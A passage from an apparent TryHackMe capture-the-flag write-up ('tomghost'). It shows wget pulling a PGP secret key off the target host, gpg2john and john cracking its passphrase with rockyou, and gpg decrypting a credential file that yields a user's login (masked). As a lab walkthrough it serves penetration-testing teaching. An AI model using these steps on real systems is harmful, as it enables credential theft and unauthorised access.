 On our local machine:

```
┌─[tester@parrot-virtual]─[~/Downloads/tomghost/Ghostcat-CNVD-2020-10487/john]
└──╼ $wget http://10.10.0.168:8000/tryhackme.asc
--2020-09-26 20:02:24--  http://10.10.0.168:8000/tryhackme.asc
Connecting to 10.10.0.168:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5144 (5.0K) [text/plain]
Saving to: ‘tryhackme.asc’

tryhackme.asc               100%[===========================================>]   5.02K  2.27KB/s    in 2.2s    

2020-09-26 20:02:27 (2.27 KB/s) - ‘tryhackme.asc’ saved [5144/5144]
```

Now, we can run `gpg2john` on the ASC file and convert it to a hash understandable by `john`. 

```
┌─[tester@parrot-virtual]─[~/Downloads/tomghost/Ghostcat-CNVD-2020-10487/john]
└──╼ $gpg2john tryhackme.asc > hash_for_john
```

The next thing that we need to do is run `john` on the newly created file named `hash_for_john`. 

```
┌─[tester@parrot-virtual]─[~/Downloads/tomghost/Ghostcat-CNVD-2020-10487/john]
└──╼ $john hash_for_john --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 65536 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 9 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
**********        (tryhackme)
1g 0:00:00:00 DONE (2020-09-26 20:07) 9.090g/s 9745p/s 9745c/s 9745C/s theresa..alexandru
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

So, `john` has provided us the passphrase using which we can decrypt the `credential.pgp` file. Now, we can head back to the target machine and decrypt the PGP file:

```
skyfuck@ubuntu:~$ gpg --decrypt credential.pgp 

You need a passphrase to unlock the secret key for
user: "tryhackme <stuxnet@tryhackme.com>"
1024-bit ELG-E key, ID 6184FBCC, created 2020-03-11 (main key ID C6707170)

gpg: gpg-agent is not available in this session
gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
gpg: encrypted with 1024-bit ELG-E key, ID 6184FBCC, created 2020-03-11
      "tryhackme <stuxnet@tryhackme.com>"
merlin:************************************************************
```
